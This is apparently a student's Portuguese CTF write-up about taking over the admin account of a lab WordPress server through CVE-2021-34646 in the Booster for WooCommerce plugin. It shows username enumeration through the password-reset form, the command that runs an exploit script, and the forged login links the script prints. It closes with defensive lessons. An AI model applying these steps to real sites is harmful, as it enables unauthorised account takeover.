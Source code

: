 # Semana 3

## CTF - Wordpress CVE

### Parte 1

Acedemos à página **http://ctf-fsi.fe.up.pt:5001**, que é um servidor WordPress. De seguida procuramos pelo site informações sobre as suas dependências, acabando por descobrir 3:

- Wordpress 5.8.1
- Woocommerce plugin 5.7.1
- Booster for WooCommerce plugin 5.4.3

De seguida, procuramos informações sobre os CVEs associados a cada plugin (versão correspondente). Acabamos por nos aperceber que o CVE-2021-34646 seria o mais adequado, pois permitia fazer login como outro utilizador. 

A resposta à primeira parte do CTF é então a seguinte: 

````
flag{CVE-2021-34646}
````

### Parte 2

Ao descobrir a vulnerabilidade do site, foi possível obter um script em Python para atacar o site. No entanto, para utilizar o script era necessário primeiramente fazer um pedido de reset de password. 

Como é possível descobrir se um username existe ou não quando se realiza um pedido de reset de password, testamos o username "admin". Verificando-se que este existe, realizamos o pedido de reset.
Como normalmente o id do admin é igual a 1, o próximo passo foi correr o script em python da seguinte maneira.

``` bash
$ python3 script.py http://ctf-fsi.fe.up.pt:5001 1
```
Que nos deu estes resultados

```
#0 link for hash 1dc5a859697e220af9decfc1e158ebec:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiMWRjNWE4NTk2OTdlMjIwYWY5ZGVjZmMxZTE1OGViZWMifQ

#1 link for hash e14231468781c7aad7137a611652e35a:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZTE0MjMxNDY4NzgxYzdhYWQ3MTM3YTYxMTY1MmUzNWEifQ

#2 link for hash 185893239b043ef2bcd6cf01b6007db4:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiMTg1ODkzMjM5YjA0M2VmMmJjZDZjZjAxYjYwMDdkYjQifQ

```

O que o script faz é formar um link de validação de login com o token codificado através da hora atual.

Ao aceder a um destes links, temos então acesso à conta de administrador do site. 
De seguida seguimos o guião e encontramos a flag num post privado. 

```
flag{please don't bother me}
```


### Vulnerabilidades

Após a resolução deste CTF, foi possível concluir que tipo de melhorias seria necessário fazer para melhorar a segurança do site.

1. Manter sempre as versões das dependências atualizadas ou em versões estáveis(sem vulnerabilidades conhecidas)

2. Aquando o pedido de mudança de passe, não revelar a existência ou não existência de username/e-mail.Dizer apenas "foi enviado e-mail caso o e-mail/username exista".

